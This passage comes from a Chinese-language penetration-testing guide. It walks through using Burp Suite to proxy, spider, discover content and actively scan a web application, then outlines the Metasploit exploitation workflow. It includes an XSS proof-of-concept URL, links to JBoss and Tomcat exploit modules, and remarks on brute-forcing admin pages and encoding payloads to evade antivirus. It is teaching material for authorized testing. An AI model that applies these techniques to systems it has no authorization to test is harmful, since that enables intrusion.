*   **JBoss 示例：** [`www.rapid7.com/db/modules/exploit/multi/http/jboss_maindeployer`](http://www.rapid7.com/db/modules/exploit/multi/http/jboss_maindeployer)
*   **Apache 示例：** [`www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_deploy`](http://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_deploy)

我寻找需要身份验证的站点的另一个原因是，它们通常意味着该应用程序具有额外的功能，更有可能暴露 Web 应用程序问题或默认密码。

这应该能让你很好地入门，快速识别漏洞并掌握你正在测试的网络情况。这不是一份详尽的网络扫描指南，而是我发现的能使扫描更高效、更快速的方法。


在启动网络扫描器并使用 Peeping Tom 获取布局后，我会直接转而启动 Web 应用程序扫描器。在 Web 扫描方面，我将主要专注于一款工具。有许多开源/免费工具可供使用，例如 ZAP、WebScarab、Nikto、w3af 等，它们都很不错，但同样，我追求的是执行测试最快、最高效的方式。尽管 Burp Suite Pro ([`portswigger.net/burp/`](http://portswigger.net/burp/)) 是一款付费工具，但价格仅在 300 美元左右。这笔费用非常值得，因为它持续维护更新，许多安全研究人员为 Burp 开发扩展，且其具备大量手动测试功能。

与漏洞扫描器的讨论类似，这不会是一份详尽的 Web 应用程序渗透测试指南，而更多的是网络渗透测试期间所执行的内容。如果你想专注于彻底测试单个应用程序，你需要研究源代码分析（使用类似 HP Fortify 的工具）和深度应用程序测试（这方面的一个绝佳资源是名为 *The Web Application Hacker’s Handbook: Finding and Exploiting Security Flaws* 的书籍）。让我们深入了解如何高效使用 Burp Suite。


### 在本节中，我将描述如何在网络渗透测试期间使用 Burp Suite Pro 扫描 Web 应用程序。

通常，在网络渗透测试期间，我没有足够的时间进行完整的 Web 应用程序测试，但当我发现大型应用程序时，会采取以下步骤：

*   使用 Burp Pro 进行爬虫/发现/扫描
*   使用 Web 应用程序扫描器进行扫描
*   手动参数注入
*   会话令牌分析


在运行 Nessus 或 Nexpose 等工具查找常见的系统/应用程序/服务漏洞后，是时候深入挖掘应用程序了。我将描述如何使用 Burp Suite，并引导你开始更深入地审视应用程序。以下步骤将实现这一目标：

1.  配置网络代理
2.  启用 Burp Suite
3.  爬取应用程序
4.  发现内容
5.  运行主动扫描器
6.  利用漏洞

### 配置网络代理和浏览器

请记住，Burp Suite 工具的工作原理是将你的 Web 浏览器配置为通过 Burp Suite 与 Web 应用程序通信。这将使你完全可见浏览器发出的请求，并赋予你修改原始请求的能力，无论客户端保护如何。

首先，你需要通过在 Windows 或 Kali 系统上运行 JAR 文件来启动 Burp Suite。Burp 启动并运行后，你需要确保代理已启用并在端口 8080 上监听。转到 Burp 中的 Proxy 选项卡，然后选 Options，确保 Burp 正在运行。使用哪个接口端口无关紧要，但如果你更改了默认值，请务必在浏览器的配置中也做相应更改。



**图 14 - 启用 Burp Suite**

现在，我们需要配置浏览器，使其能够使用我们让 Burp Proxy 监听的端口。我使用的插件是 Firefox 的 Foxy Proxy ([`addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/`](http://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/))，它应该已在设置阶段安装。这是一种拥有多个代理并能快速在它们之间切换的简便方法。在浏览器 URL 栏旁边，有一个带圆圈和斜线的狐狸图标。点击狐狸，点击“Add New Proxy”，点击 Proxy Details 选项卡，你需要将 Manual Proxy Configuration 设置为本地主机 (127.0.0.1) 和代理端口 8080。返回 General 选项卡，为该代理命名，并保存该配置。

你本质上是告诉浏览器将所有流量发送到本地主机的 8080 端口。这是我们配置 Burp Suite 应用程序监听的端口。Burp 知道将接收此流量并将其代理转发到互联网。



**图 15 - 配置浏览器的代理设置**

保存此配置文件后，右键点击狐狸图标，下拉并选择你的代理配置。在本例中，我将代理配置命名为 Burp Suite 并将其选为我的代理。



**图 16 - 选择要使用的代理**

配置好浏览器使用代理后，我们可以浏览之前确定的 Web 应用程序。在本例中，在我的浏览器中我将访问我的站点：[www.securepla.net](http://www.securepla.net)。如果我们回到 Burp，将看到 Proxy/Intercept 选项卡亮起。



**图 17 - Burp 捕获并拦截流量**

如果发生这种情况，说明我们已完美配置了一切。我们现在看到 Burp 成功捕获了我网站的 GET 请求。我们还可以看到任何 Cookie 和其他请求信息。默认情况下，初始状态是拦截所有流量。拦截意味着阻止浏览器到 Web 应用程序的任何请求，让你有能力读取或修改该请求，并将该请求转发给 Web 应用程序或丢弃该请求。

如果你尝试使用默认设置浏览任何站点，将无法看到任何响应，直到你关闭“Intercept”按钮。点击关闭“Intercept”按钮后，我们仍将捕获所有 Web 流量，但不会直接篡改每个请求。处于拦截关闭状态时，你可以在 Intercept 选项卡右侧的 History 选项卡中查看所有请求和响应。

现在，如果我们转到 Target 选项卡，可以看到刚才捕获并转发的 URL。让我们首先将此站点添加到我们的 Scope（范围）中。Scope 定义了自动爬虫和测试可以发生的位置，并帮助你避免主动扫描超出范围的域名。我们稍后会深入探讨这一点，但你应该将所有想要测试的 URL 或 FQDN 添加到你的范围内。下图显示测试人员右键点击域名并点击“Add to scope”。



**图 18 - 创建你的范围**

### 爬取应用程序


## Web 应用测试与漏洞扫描

### Spider 目标主机

进行 Web 应用测试的第一步是 Spider 目标主机。这意味着 Burp 将爬取整个网站，并记录该站点上所有不同的文件、表单和 HTTP 方法。我们首先进行 Spider，因为我们需要确定所有链接的位置、应用程序中使用的参数类型、应用程序引用的外部站点，以及应用程序功能的整体布局。

要 Spider 您的应用程序，请进入 **Target** 选项卡 -> **Site map** 选项卡，右键单击要 Spider 的域名，然后单击 **Spider this host**。



Figure 19 - Spidering the Host

Spider 过程完成后，Burp 应该已经很好地梳理了应用程序的确切外观。我们还可以单击任何文件（如下图）来查看请求和响应的内容。左侧列显示所有文件和文件夹，右侧显示请求和响应。在 **Site map** 选项卡正下方是 **Filter** 按钮。尝试调整此按钮，查看过滤掉的内容以及适合您的设置。通常，我喜欢先将所有域名添加到作用域，然后单击 **Filter** 仅显示作用域内的项目。这能清理掉大量在我测试中本就超出作用域的引用域名。



Figure 20 - Site Map/Request and Responses

### 发现内容

有时页面或文件夹并未直接从 Web 应用程序链接。例如，我经常看到 `admin` 文件夹或登录页面在网站上任何地方都没有被引用。您可能会在浏览器地址栏访问 `/admin/folder` 并被带到管理员认证页面，但这可能在 Spider 阶段被遗漏。这通常是因为主机管理员试图向普通用户隐藏这些文件夹和管理登录页面。这些正是您在测试中寻找的目标，以便尝试绕过或暴力破解认证过程。

Burp 中有一个特定模块在这些场景下非常有帮助。在同一个 **Site map** 选项卡中，右键单击父 URL，展开 **Engagement tools**，然后单击 **Discover content**。



Figure 21 - Discovering Content

进入 **Discovery** 模块后，您可以单击 **Session is not running** 按钮，应用程序将开始对文件夹和文件结构进行“智能暴力破解”。所谓“智能暴力破解”，是指应用程序从发现的文件和文件夹中学习，并尝试做出更好的暴力破解选择。此技术提供了一个高效的流程来识别文件夹和文件，以推进您的应用程序测试。

在展示示例之前，请注意我在自己的评估中更喜欢使用自定义字典。我不确定 `RAFT` 是否仍在积极开发，但几年前有几位研究人员做过关于开发最常见文件夹和文件的更好列表的演讲。他们有许多不同的列表，您应根据您的作用域和测试时间窗口进行查看。这些列表可在此处找到：[`code.google.com/p/raft/source/browse/trunk/data/wordlists/?r=64`](http://code.google.com/p/raft/source/browse/trunk/data/wordlists/?r=64)。



Figure 22 - Discovering Session Status

如上图所示，**Discovery** 工具识别出了 `/wp-includes/` 文件夹，这在 WordPress 应用程序中很常见。然后它开始在该文件夹中查找常见的文件夹/文件类型。您可以单击 **Discovery** 模块顶部的 **Site map** 选项卡，查看该扫描的所有结果。这将有助于快速识别隐藏文件夹、管理页面、配置页面和其他对测试人员有用的页面。

### 运行主动扫描器

一旦您确信已识别出网站的足够大一部分，就可以开始攻击参数、请求并查找漏洞。这可以通过右键单击父域名，展开菜单选择 **Actively scan this host**（如下图）来完成。这将启动 Burp 的应用程序扫描器并开始模糊测试输入参数。请记住，这在网络上将非常“吵”，并可能在应用程序中提交大量查询。快速警告：如果应用程序有评论框，客户可能会收到因所有参数被主动模糊测试而产生的大量电子邮件。这就是为什么必须让客户知道测试人员何时以及从何处执行这些任务的原因。



Figure 23 - Active Vulnerability Scans

扫描器运行后，结果和测试队列将位于 **Scanner** 选项卡中。您可能需要查看 **Scanner** 选项卡中的 **Options** 选项卡以进一步配置 Burp Suite。我通常做的一项更改是增加 **Active Scan Engine** 部分的线程数以减少扫描时间。这将显著减少所需时间，但请小心，如果线程数过高，可能会拖垮一个小型网站。

如果我们查看结果，会看到 Burp Suite 为此网站发现了一个 XSS 漏洞。Burp 告诉我们确切的问题是什么、用于复现的请求以及响应。



Figure 24 - Scan Results

作为渗透测试人员，您需要验证没有误报，并确定发现的实际严重性。让我们看看 Burp 发现的是否真实有效。单击其中一个 XSS 漏洞，我们可以看到使用的确切 GET 参数。要复现此问题，我们需要访问：

`http://www.securepla.net/xss_example/example.php?alert=9228a<script>alert(1)</script>281717daa8d`

打开浏览器并输入该 URL，以下演示表明这不是误报，而是一个真实的漏洞。如果您不熟悉 XSS 攻击，我建议花些时间玩转像 WebGoat 这样的易受攻击 Web 应用程序框架：[`www.owasp.org/index.php/Category:OWASP_WebGoat_Project`](https://www.owasp.org/index.php/Category:OWASP_WebGoat_Project)。



Figure 25 - XSS Example

Burp 的功能远不止检查 XSS 漏洞。它可以识别 CSRF 问题、不良 SSL 证书、目录遍历漏洞、SQL 注入、命令注入等。要查看 Burp 的更多用法，请参阅本书关于 Web 应用渗透测试的章节。


### 网络扫描

扫描网络是成功进行全网渗透测试的重要步骤。面对如此大的范围，被动和主动扫描都可以提供关于网络、服务、应用程序、漏洞和主机的信息。使用专用或自定义的端口扫描、Web 抓取、“智能暴力破解”和自动化工具可以帮助提高测试的效率和有效性。这些发现将直接引导至利用此过程识别出的漏洞的后续章节。


### 漏洞利用概念

其核心概念是：您看到敞开的漏洞或洞口，如何突破取决于您。扫描器识别出许多不同类型的漏洞，但我将介绍两种利用常见漏洞的标准方法。本节将更多地从宏观角度进行概述，因为如果我专注于每种漏洞类型，这本书会变得极长。本书也假设您有一定的利用经验，希望这能作为一个复习。


无论你使用 Nexpose 还是 Nessus（或任何其他漏洞扫描器），这对利用过程可能没有影响。一旦扫描器发现漏洞，我通常会去搜索一个可用的漏洞利用代码。我在后面的章节专门设立了一个关于漏洞搜索的部分，介绍如何根据扫描器的发现来查找漏洞利用代码，但现在我将简要描述如何使用 Metasploit 以及理解脚本以利用漏洞的重要性。

([`www.metasploit.com`](http://www.metasploit.com)) (Windows/Kali Linux)

我们最常用的利用工具是 Metasploit。Metasploit Framework 旨在用于开发、利用漏洞以及协助攻击。框架最好的部分是它是以研究为出发点开发的。我的意思是，开发你自己的 Metasploit 模块并在框架内使用它们非常容易。^(5) 这不需要太多的 Ruby 知识，但需要更多的基本脚本技能。在不花太多时间解释 Metasploit 的情况下，让我们通过一个示例来演练框架的使用。


*   选择一个要使用的漏洞利用代码或模块
*   设置模块的选项
    *   `set` 命令用于将值输入到模块的配置中
    *   设置受害者主机和端口
    *   设置本地主机和端口
    *   可能需要设置系统版本、用户账户和其他信息
    *   执行 `show options` 命令以查看哪些选项是必需的或需要的
*   配置载荷
    *   载荷是在漏洞被利用后应该发生的事情
    *   要更好地了解载荷类型，请参考：[`www.offensive-security.com/metasploit-unleashed/Payload_Types`](http://www.offensive-security.com/metasploit-unleashed/Payload_TypesTHE)
    *   执行 `show payloads` 命令以查看所有不同类型
    *   使用 `set payloads` 来配置要使用的载荷
*   设置编码器
    *   这是在 Metasploit 中混淆攻击的基本方法。遗憾的是，这仍然经常触发杀毒软件（AV）报警，且对于渗透测试来说不可靠。我们将在本书后面讨论更好的绕过 AV 的方法。
    *   要查看编码器，请执行 `show encoders` 命令，并通过 `set encoders` 命令应用它们
*   设置附加选项
*   运行选定并配置好的攻击，执行 `exploit` 命令

因为我通常使用 Metasploit 的 CLI 版本，所以很难记住所有不同类型的命令。这里有一个快速备忘单可以帮忙：[`www.cheatography.com/huntereight/cheat-sheets/metasploit-4-5-0-dev-15713/`](http://www.cheatography.com/huntereight/cheat-sheets/metasploit-4-5-0-dev-15713/)。当然，你也可以在应用程序中输入 `help` 以获取额外帮助。


